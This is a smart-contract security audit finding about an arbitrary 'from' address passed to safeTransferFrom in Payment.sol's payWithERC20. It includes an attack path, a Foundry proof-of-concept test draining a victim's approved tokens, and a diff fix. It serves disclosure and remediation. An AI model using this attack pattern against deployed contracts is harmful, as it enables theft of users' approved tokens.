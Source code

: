 Ancient Flaxen Cormorant

High

# [H-1] Arbitrary `from` passed to `transferFrom` in `Payment.sol::payWithERC20 function `

### Summary

The `payWithERC20` function in the `Payment.sol` contract is designed to support a gasless flow. While the protocol assumes that the caller is always the `msg.sender`, this is not strictly enforced. If a user approves the contract to transfer tokens on their behalf, an attacker can front-run the transaction and replace the from address with the victim’s address, effectively transferring tokens to themselves. This could result in unintended token loss for the user.

### Root Cause

in the `payWithERC20` function , `  token.safeTransferFrom(fromAddress, toAddress, amount)` uses arbitrary from address instead of using msg.sender.

```solidity 
  function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
@>        token.safeTransferFrom(fromAddress, toAddress, amount);
    }
```


### Internal Pre-conditions

1. a user need to approve the contract some tokens.

### External Pre-conditions

nil

### Attack Path

1. alice approves the `Payment.sol` contract some tokens to use the function `payWithERC20`
2. bob see's that alice approved the contract some tokens.
3. bob transfers the tokens approved by alice using the `payWithERC20` function setting the to address to bob.

### Impact

the user approving the contract will lose tokens 

### PoC

paste this file in a test file and run the test using `forge test --mt  test_arbitaryTransferFrom`
```solidity 
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Payment} from "../src/Payment.sol";
import {MockERC20} from "./MockERC20.sol";

contract PaymentTest is Test {
    Payment payment;
    MockERC20 mock;
    address user = makeAddr("user");
    address alice = makeAddr("alice");


    function setUp() external {
        payment = new Payment();
        mock = new MockERC20();
        mock.mint(user, 10e18);
    }

    function test_arbitaryTransferFrom() external {
        //1.user appproves the contract to transfer token
        vm.prank(user);
        mock.approve(address(payment), 10e18);
        //2. alice sees this approval and transfers the tokens to herself.
        vm.prank(alice);
        payment.payWithERC20(address(mock), 10e18, user, alice);
        assert(mock.balanceOf(user) == 0);
        assert(mock.balanceOf(alice) == 10e18);
    }
}


```

### Mitigation

```diff
 function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
        // check from and to address
        require(fromAddress != toAddress, "Cannot transfer to self address");
        require(toAddress != address(0), "Invalid to address");
        require(amount > 0, "Amount must be greater than 0");
        IERC20 token = IERC20(erc20TokenAddress);
-       token.safeTransferFrom(fromAddress, toAddress, amount);
+      token.safeTransferFrom(msg.sender, toAddress, amount)
    }
```